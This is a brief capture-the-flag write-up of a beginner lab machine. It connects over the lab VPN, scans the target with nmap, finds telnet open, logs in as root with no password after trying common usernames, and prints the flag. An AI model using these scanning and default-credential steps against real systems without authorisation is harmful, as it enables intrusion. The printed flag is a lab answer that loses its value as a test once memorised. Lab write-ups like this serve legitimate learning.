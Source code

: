 ```yaml
---
layout: default
title: Meuw
---
```


## TL;DR

We find open 23 port for `telnet`, and login with `root` user without password.

### Recon

First, we connect to our `openvpn` using the command, when we use the `ovpn` file we downloaded for this purpose:
```bash
sudo openvpn Downloads/starting_point_agonen.ovpn
```

Then, we scan the ip using `nmap`, we'll run this command:
```bash
nmap -sCV -p- --min-rate=10000 10.129.63.138
```

![scan results](image.png)

as we can see, there is an open `telnet` port:
```bash
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Login with user root to telnet

we try to connect via `telnet`:
```bash
telnet 10.129.63.138
```
And it asks for username and password, we try to give several common creds:
```bash
Administartor
Admin
root
```
and luckily, the `root` user worked without requiring password!
![root works](image-1.png)

Now, all left is to read flag.txt

![read flag](image-2.png)

**Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***

